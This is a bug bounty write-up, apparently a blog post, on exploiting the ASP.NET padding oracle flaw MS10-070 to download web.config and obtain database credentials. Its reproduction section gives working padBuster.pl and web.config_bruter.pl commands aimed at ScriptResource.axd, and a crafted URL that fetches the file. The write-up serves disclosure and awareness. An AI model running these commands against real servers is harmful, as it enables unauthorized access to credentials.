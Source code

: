 ```yaml
---
title: "Old but Gold: Exploiting ASP.NET Padding Oracle MS10-070 (CVE-2010-3332)"
date: 2018-06-15 12:00:00 -500
categories: [Padding Oracle, Path Traversal, ASP.NET]
tags: [Padding Oracle, Path Traversal, ASP.NET]
---
```


Hey Everyone,

Hope you’re doing well. This my first write-up, I hope you learn something new from this one and enjoy it.

This post is about an old finding that I had discovered while testing an in-scope asset of a well-known program on HackerOne. Although several hackers had already submitted a large number of findings prior to my assessment, this particular vulnerability had been missed. Furthermore, I noticed that this vulnerability had not been well-documented, one of the reasons why I decided to write a detailed write-up about it to shed light on the issue and raise awareness of its potential security impact.

For privacy reasons and in accordance with the responsible disclosure policy, I will be hiding any information related to the web application.



# Summary:

ASP.Net uses encryption to hide sensitive data and protect it from tampering by the client. However, a vulnerability in the ASP.Net encryption implementation, known as the .NET Padding Oracle **MS10-070** or **CVE-2010-3332**, can allow an attacker to decrypt and tamper this data. By exploiting this vulnerability, I was able to access the **web.config** file, thus allowing me to access the DB credentials.


# Description:

A padding oracle is a function of an application which decrypts encrypted data provided by the client, e.g. internal session state stored on the client, and leaks the state of the validity of the padding after decryption. The existence of a padding oracle allows an attacker to decrypt encrypted data and encrypt arbitrary data without knowledge of the key used for these cryptographic operations. This can lead to leakage of sensitive data or to perform privilege escalation attacks, if integrity of the encrypted data is assumed by the application.

An application is vulnerable to a padding oracle attack if it responds differently in the following three cases:

-	When a valid ciphertext is received (one that is properly padded and contains valid data).

- 	When an invalid ciphertext is received (one that is not properly padded).

-	When a valid ciphertext is received (properly padded) but the decrypted value is not valid for the application.

The key to attacking ASP.NET via Padding Oracle is the file **WebResource.axd**. This file can be used as a Padding Oracle because it responds differently in all three cases.

In the case of your web application, this three response are:

## 1.	When a valid ciphertext is received

![](/assets/img/3/1.png)


## 2.	When an invalid ciphertext is received

![](/assets/img/3/2.png)
	
## 3.	When an empty ciphertext is received
	
![](/assets/img/3/3.png)


This is the padding oracle that allows an attacker to exploit this vulnerability. If your application responds differently in all of these three cases, There is a high chance that it's vulnerable !

# Impact of this issue:

As i said before, this vulnerability allows an attacker to access the sensitive files, like the **web.config**, which in this case contains The Web App's Active Directory and Database credentials.


# Steps To Reproduce:


To exploit this vulnerability, I used [PadBuster.pl](https://github.com/AonCyberLabs/PadBuster/blob/master/padBuster.pl) and [Web.config_bruter.pl](https://github.com/offensive-security/exploitdb/blob/490539b3f3b64df8924337f7650d586b7070c5dd/platforms/asp/remote/15213.pl) scripts from http://blog.gdssecurity.com


## Step 1:

The first step of the attack is to identify a component that is vulnerable to the padding oracle attack and use it to encrypt the web.config payload `(|||~/web.config)`. This can typically be done in a few ways. In this case i used ScriptResource.axd as a padding oracle for CBC-R, using the following command.


```
./padBuster.pl http://target.com/ScriptResource.axd?d=CUafKwkhq68B9A4Yt-7i4izUS1MdxxTMRZAA8rMUy1Gb27JCvC-mrOvxEsb4P9wa0 CUafKwkhq68B9A4Yt-7i4izUS1MdxxTMRZAA8rMUy1Gb27JCvC-mrOvxEsb4P9wa0 16 -encoding 3 -plaintext "|||~/web.config"
```

Then padBuster will start response analysis, when the response analysis complete, it will ask you to choose one of the ID response signatures. in this case choose the ID number 2.


![](/assets/img/3/4.png)


When padBuster complete the brute force mode, it will generate an Encrypted value, that will be used in step 2

## Step 2:

In this step we will generate the exact value, used by the ASP.NET to address the web.config file, Using web.config_bruter.pl, which require the previous encrypted value from padBuster. Using this command:

```
./webconfig_bruter.pl http://target.com/ScriptResource.axd FqaGZjlOrmmihUjkijVGmgAAAAAAAAAAAAAAAAAAAAA1 16
```

![](/assets/img/3/5.png)


Note that this process will take some time to finish. At the end, web.config_bruter.pl will generated the value used to access the web.config file via ScriptResource.axd.

```
http://target.com.com/ScriptResource.axd?d=xrYGbQqPz_O9psXsEHv1LRamhmY5Tq5pooVI5Io1RpoAAAAAAAAAAAAAAAAAAAAA0
```

## Step 3:

Now we just need to download the **web.config** using the previous link.

![](/assets/img/3/6.png)



# Supporting Material/References:

- [http://blog.gdssecurity.com/labs/2010/10/4/padbuster-v03-and-the-net-padding-oracle-attack.html](http://blog.gdssecurity.com/labs/2010/10/4/padbuster-v03-and-the-net-padding-oracle-attack.html)

- [https://www.owasp.org/index.php/Testing_for_Padding_Oracle_(OTG-CRYPST-002)](https://www.owasp.org/index.php/Testing_for_Padding_Oracle_(OTG-CRYPST-002))

- [padBuster.pl](https://github.com/GDSSecurity/PadBuster/blob/master/padBuster.pl)

- [web.config_bruter.pl](https://github.com/offensive-security/exploit-database/blob/490539b3f3b64df8924337f7650d586b7070c5dd/platforms/asp/remote/15213.pl)